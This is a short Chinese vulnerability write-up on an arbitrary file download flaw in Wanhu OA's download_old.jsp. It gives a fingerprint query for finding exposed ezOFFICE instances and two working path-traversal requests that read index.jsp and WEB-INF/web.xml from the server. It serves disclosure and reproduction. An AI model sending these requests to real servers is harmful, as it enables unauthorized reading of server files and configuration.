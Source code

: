 # 万户OA download_old.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_old.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132657470](./images/202205201326571.png)

验证POC

```
/defaultroot/download_old.jsp?path=..&name=x&FileName=index.jsp
/defaultroot/download_old.jsp?path=..&name=x&FileName=WEB-INF/web.xml
```

![image-20220520132715066](./images/202205201327151.png)